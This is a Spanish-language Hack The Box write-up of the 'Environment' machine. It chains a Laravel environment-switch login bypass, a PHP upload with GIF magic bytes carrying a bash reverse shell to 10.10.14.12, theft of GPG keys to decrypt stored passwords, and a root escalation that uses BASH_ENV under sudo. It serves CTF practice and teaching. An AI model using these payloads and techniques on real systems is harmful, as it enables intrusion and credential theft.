





# Environment

- **Plataforma:** HTB 
- **Fecha de resolución:** 28/07/2025
- **Autor:** Albr_0x4a

- Enlace a mi archivo de notas para más detalle: [notes.md](./notes.md)
---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.67

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p22,80 -sCV 10.10.11.67

```bash
# Nmap 7.94SVN scan initiated Sat Jul 26 14:17:05 2025 as: nmap -p22,80 -sCV -oN target 10.10.11.67
Nmap scan report for 10.10.11.67
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 26 14:17:15 2025 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

## Explorando Servicio Web

- Al entrar en la página, no vemos gran cosa, por lo que procedemos a hacer fuzzing a la web en busca de directorio u otros archivos:

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://environment.htb/ -t 100 -x php,txt,xml,log
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://environment.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              log,php,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4602]
/login                (Status: 200) [Size: 2391]
/upload               (Status: 405) [Size: 244852]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```

- Primero entramos a `/upload`, ya que tiene un código de estado **405**, al entrar nos encontramos con un error, el cual nos muestra información valiosa como la versión de `Laravel`



- Al buscar por vulnerabilidades para esta versión de `Laravel`, nos encontramos con que tiene una vulnerabilidad que explotandola podemos conseguir cambiar el entorno en el que trabaja `Laravel`: [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301)

- Proximamente navegamos hacia `/login`, donde nos encontramos con un formulario para iniciar sesión.


- Después de probar posibles inyecciones `SQL` y `NoSQL`, y modificar parámetros, nos damos cuenta que si enviamos la variable `remember` con un valor diferente de `true` o `false`, nos devuelve un error:

```bash
_token=uAaKjtD5M76sxmk1RcpmZHd7zY895IgojVP8KjmE&email=test%40test.com&password=test&remember=1
```



- En este error podemos ver un fragmento de código, donde la app verifica si el entorno es `preprod`, y si esto se cumple, nos inicia sesión automaticamente como el usuario con id=1 (admin), lo cual podemos explotar con la vulnerabilidad vista anteriormente.

- Para lograr iniciar sesión, necesitamos interceptar la petición y agregar el parámetro `--env` con el valor `preprod`.

```bash
POST /login?--env=preprod HTTP/1.1
```



- Una vez dentro, vemos que tenemos un mecanismo para modificar la foto de perfil, y si no está validando correctamente, podriamos subir un archivo `.php` y ejecutar código.



- Creamos nuestro archivo `rce.php` con el siguiente contenido:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>
```

- Al subir el archivo nos devuelve un error, y después de un rato sin éxito modificando la extensión y el `Content-Type`, para tratar de burlar el mecanismo, intentamos probar añadiendo los `magic bytes` de un archivo `.gif`:

```bash
(printf '\x47\x49\x46\x38\x37\x61'; cat rce.php) > reverse.php
```

- Nuevamente obtenemos un error al subir el archivo, pero si modificamos la extensión a `.png`, se sube correctamente, por lo que llegamos a la conclusión que se están validando tanto los `magic bytes` como la extensión. Después de un rato probando con diferentes extensiones, tenemos áxito con `.php.` y obtenemos una shell.



- Ya dentro del sistema y después de un rato enumerando, encontramos con que tenemos permisos en el directorio del usuario `hish` y obtenemos acceso al archivo `keyvault.gpg`  en `/home/hish/backup`.

```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
```

- Este archivo es un archivo cifrado o de clave compatible con el estándar OpenPGP, dejo más información sobre este archivo en este [enlace](https://docs.fileformat.com/misc/gpg/)

- Para poder descifrarlo nos traemos el archivo cifrado a nuestro sistema y copiamos los archivos `pubring.kbx`, `trustdb.gpg` y el contenido de la carpeta `private-keys-v1.d` del directorio `/home/hish/.gnupg/` de nuestra máquina comprometida, a  `~/.gnupg/` en nuestra máquina, luego ejecutamos el siguiente comando y obtenemos acceso a los datos cifrados: 

```bash
gpg -d keyvault.gpg
gpg: cifrado con clave de 2048 bits RSA, ID B755B0EDD6CFCFD3, creada el 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- Con estas credenciales, podemos conectarnos al sistema como el usuario `hish` mediante ssh:

```bash
ssh hish@10.10.11.67
hish@10.10.11.67's password: 
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.2$ 
```

- Al ejecutar `sudo -l` vemos que podemos ejecutar `/usr/bin/systeminfo` con permisos de administrador:

```bash
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- Al revisar este archivo vemos que es un script el cual ejecuta una serie de comandos para mostrar información del sistema:

```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###" 
df -h
```

- Lo primero que notamos es que no se está utilizando la ruta absoluta para ejecutar comandos lo que se podria aprovechar mediante `Path Hijacking`, pero si analizamos de nuevo la salida de `sudo -l`, notamos que el path se está reiniciando, por lo que no funcionaria:

```bash
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty
```

- También podemos observar anteriormente, que la variable de entorno `BASH_ENV` no se reinicia, esta variable se utiliza sobre todo cuando se ejecutan comandos en shells no interactivas, como en scripts. Por lo que si le asignamos la ruta de un script malicioso, se ejecutará sin problemas:

```bash
hish@environment:~$ nano /tmp/mount
hish@environment:~$ cat /tmp/mount
#!/bin/bash

chmod +s /usr/bin/bash
hish@environment:~$ chmod +x /tmp/mount 
hish@environment:~$ export BASH_ENV=/tmp/mount 
```

- Ejecutamos `sudo /usr/bin/systeminfo`, y luego lanzamos una shell privilegiada. Navegamos al directorio `/root/` y obtenemos la flag.

```bash
hish@environment:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /usr/bin/bash
hish@environment:~$ bash -p
bash-5.2# whoami
root
bash-5.2# cd /root/
bash-5.2# ls
root.txt  scripts
```